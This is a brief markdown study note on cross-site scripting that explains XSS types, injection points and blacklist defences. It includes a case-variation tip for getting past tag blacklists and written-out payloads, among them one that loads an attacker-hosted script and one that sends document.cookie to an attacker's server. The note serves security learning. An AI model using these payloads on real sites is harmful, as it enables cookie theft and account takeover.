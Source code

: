Javascript payload injection that will be executed on client side.
Three different types:
- Reflected (in http request)
- Stored (in server-side DB)
- DOM (document object model): runtime only (client-side)

Usually, an attacker would use this vulnerability to steal cookies and use them to impersonate another user, like an admin. But with that, we could also perform keylogging, browser printing, ... We could also take control of the machine with old and insecure browsers

On the other hand, to assess a XSS exists, we use the alert

### **Where**
These payloads can be injected at multiple places:
- forms
- profile editing
- headers
- url parameters

### **Prevention**
To remedy to this vulnerability, some sites blacklist some common names (<img\> for example or <button\>), but you can try with <imG\>
Other tentatives comprise characters blacklist

Additionally, to avoid cookie stealing, a header flag `HTTPonly` can be used to prevent JS to access cookies.
### **Example:**
<script>alert(1)</script> in a search bar, which could trigger an alert

<script src="my-server:8080/myscript.js"></script> to use our own server and do anything from the user browser

<script><img src="http://myip?"+document.cookie></script> is the usual way to go to steal cookies (works of course with a server on our side to receive requests)